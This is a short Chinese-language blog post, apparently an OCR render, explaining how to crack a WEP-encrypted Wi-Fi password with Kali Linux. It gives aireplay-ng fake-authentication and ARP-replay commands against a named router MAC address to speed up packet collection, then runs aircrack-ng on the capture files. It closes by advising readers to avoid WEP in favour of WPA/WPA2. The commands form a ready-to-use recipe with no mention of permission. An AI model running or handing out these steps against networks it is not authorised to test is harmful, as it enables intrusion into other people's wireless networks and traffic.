 ```yaml
---
layout: post
title: Kali Linux破解wifi密码(WEP)
---
```


WEP是无线路由器最初广泛使用的一种加密方式，这种加密方式非常容易被破解。

目前很少有人使用wep加密方式，但是还是会有。

建议：使用WPA/WPA2做为加密方式。

抓包和“破解wpa/wpa2”方法一样，参考其中的前4步；

* [Kali Linux使用Aircrack破解wifi密码(wpa/wpa2)](http://topspeedsnail.com/kali-linux-crack-wifi-wpa/)

### 5) 加快Beacons和Data数据的收集速度

和破解WPA/WPA2不同的是，它只要抓取到足够的Beacons和Data数据就可以破解，理想情况下是100000+。你可以等，也可以使用aireplay加快这个进程。

{% highlight shell %}
# aireplay-ng -1 0 -a C8:3A:35:30:3E:C8 wlan0mon
{% endhighlight %}

{% highlight shell %}
# aireplay-ng -3 -b C8:3A:35:30:3E:C8 wlan0mon
{% endhighlight %}

等到抓取的数据充足，Ctrl+C停止。

### 6) 开始破解：

{% highlight shell %}
# aircrack-ng ~/*.cap
{% endhighlight %}

最后，不要忘了结束无线网卡的监控模式：

{% highlight shell %}
# airmon-ng stop wlan0mon
{% endhighlight %}

*****

总结：避免使用WEP加密方式。